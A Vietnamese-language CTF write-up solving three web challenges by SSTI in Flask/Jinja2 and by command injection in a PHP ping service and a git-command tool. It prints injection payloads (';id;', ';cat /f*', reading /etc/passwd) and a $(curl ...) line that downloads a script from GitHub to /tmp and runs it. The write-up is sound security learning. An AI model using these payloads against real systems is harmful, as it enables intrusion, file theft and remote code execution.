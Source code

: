 ```yaml
---
title: AutumnCTF ISP Write-up
date: 2022-08-10
categories: [writeup]
tags: [web]
---
```

# AutumnCTF ISP

# Hello my fen

Sau khi đọc source và biết được backend là flask jinja 2 thì có thể đoán luôn được là bài này bị dính SSTI, giờ tìm cách bypass black list và white list của bài thôi.

Lên payload all the things chọn một payload thuộc phần read remote file: 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2011.png)

Sửa file `/etc/passwd` thành `[app.py](http://app.py)` để đọc thử thì thấy kết quả trả về đúng là nội dung file. Giờ thì sẽ làm sao để có thể in ra được nội dung của file `flag.txt`  vì từ `flag` đã nằm trong blacklist

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled.png)

Đến đây thì ta phải dùng hàm `join()` của python để nối chuỗi lại với nhau tạo thành tên file `flag.txt`.

Payload: 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2012.png)

Flag: **`FLAG{did-you-really-understand-ssti??}`**

# Ping service v1

Chức năng của website sẽ là nhập một địa chỉ ip rồi sẽ chạy lệnh ping đến địa chỉ ip đó

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%201.png)

⇒ liên quan đến Command Injection

Ctrl+U lên để check source thì thấy có ?debug, vào check source nào

```php
<?php
if (isset($_GET['debug'])) {
    die(show_source(__FILE__));
}
if (isset($_GET['addr'])) {
    $addr = $_GET['addr'];
    $addr = preg_replace('/\||&|;|`|{|}|"|\'|cat|tail|>|<|\n/', ' ', $addr);
    $cmd = 'ping -c 2 ' . $addr . ' 2>&1';
    $ans = shell_exec($cmd);
    $ans = '<h3>' . preg_replace('/\r|\n/', '<br/>', $ans) . '</h3>';
}
```

Bên trên là đoạn code cần chú ý, phía backend sẽ dùng hàm `preg_replace()` để filter input mà người dùng nhập vào. Nhưng ở đây ta có thể dùng câu lệnh ví dụ như `$(pwd)` để bypass filter này.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%202.png)

Hướng làm bây giờ sẽ là up 1 file bất kì có chứa nội dung là `cat /flag` trên nền tảng github. Sau đó dùng lệnh `curl` để tải file về phía server. Phải thay đổi vị trí tải file vị trí folder hiện tại `/var/www/html` sẽ không cho phép tạo thêm file

Tạo file trên github

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%203.png)

Sau đó vào phần raw, copy url.

Lệnh `curl` cần dùng:

```php
$(curl https://raw.githubusercontent.com/kmaron1n/temp/main/a.txt -o /tmp/a)
```

câu lệnh trên sẽ gán nội dung của file a.txt vào file mới tạo là `/tmp/a` 

Check xem folder `/tmp` đã có file a chưa:

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%204.png)

OK!

Giờ thì chạy file `a` rồi lấy flag thôi

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%205.png)

Flag: **`FLAG{not-show-stdout-when-r-stupid}`**

# Git checker

Khi truy cập vào đường dẫn ta sẽ được giao diện như sau. 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%206.png)

Chức năng của website sẽ là chạy lệnh git. CHo chạy qua proxy burpsuite bắt requests, ta thấy command sẽ được truyền tới server dưới dạng JSON

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%207.png)

Param `args` thay đổi được, có vẻ bài này sẽ khai thác được bằng lỗi Command Injection.

Thử thay giá trị của `args` bằng một số payload, ví dụ: `;id;` ⇒ payload hoạt động

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%208.png)

Thử tìm xem có file flag ở đây không bằng payload `;ls` ,  flag nằm cùng thư mục luôn.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%209.png)

Dùng payload `;cat /f*` được Flag

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2010.png)

Flag: `FLAG{g1t-c0mm4nd_1sn't_s4f333}`
